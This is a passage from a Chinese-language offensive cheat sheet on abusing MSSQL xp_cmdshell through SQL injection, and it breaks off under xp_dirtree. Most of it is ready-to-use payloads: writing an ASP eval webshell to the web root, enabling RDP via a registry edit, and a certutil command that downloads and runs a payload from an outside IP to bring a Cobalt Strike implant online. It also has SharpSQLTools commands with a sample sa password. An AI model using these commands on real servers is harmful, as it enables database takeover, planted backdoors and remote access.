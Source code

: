 ###### ③杂项

```
1. 查询web根目录路径
	EXEC master..xp_cmdshell 'where /r c:\*.asp'
2. 利用xp_cmdshell写Webshell	//找绝对路径可以where命令和其他扩展存储过程组合利用
	EXEC master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\intepub\wwwroot\shell.asp'	//Windows的转义符为^，Linux的转义符为 \
3. xp_cmdshell扩展利用
	a. 利用xp_cmdshell开启3389端口
		id=1';EXEC master..xp_cmdshell 'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f' --+	
    b. 写入web根目录或反弹shell
		id=1';EXEC master..xp_cmdshell 'systeminfo > c:\inetpub\wwwroot\systeminfo.txt' --+	
    c. 写入webshell
    	idd=1';EXEC master..xp_cmdshell 'echo ^<%eval request("cmd")%^> > c:\inetpubwwwroot\shell.asp'
    d. cmdshell执行powershell命令上线CS
    	id=1';EXEC master..xp_cmdshell 'certutil.exe -f -split -urlcache http://192.168.172.150:9090/payload64.txt c:\\inetpub\\wwwroot\\payload1.bat' --+
    	id=1';EXEC master..xp_cmdshell 'c:\\inetpub\\wwwroot\\payload1.bat' --+
    d. SharpSQLTools利用xp_cmdshell
    	SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafr666[password] master enable_xp_cmdshell
    	SharpSQLTools.exe 192.168.172.150 sa[username] ICQsafr666[password] master xp_cmdshell whoami
```

###### ④添加与删除

```mssql
1. 删除xp_cmdshell扩展存储过程
	EXEC sp_dropextendedproc 'xp_cmdshell'
2. 重新添加xp_cmdshell扩展存储过程
	EXEC sp_addextendedproc xp_cmdshell,@dllname='xplog70.dll' declare @o int;
	sp_addextendedproc 'xp_cmdshell','xpsql70.dll';
3. 彻底删除xp_cmdshell扩展存储过程
	在C盘里直接搜索xplog70.dll，然后删除xp_cmdshell
```

##### b. xp_subdirs

* 读取文件夹内的文件夹列表等

###### ①利用

```mssql
1. 得到给定文件夹内的文件夹列表
	EXEC master..xp_subdirs 'c:\';
```

##### c. xp_dirtree

* 显示当前目录的子目录，**有3个参数**

###### ①参数作用
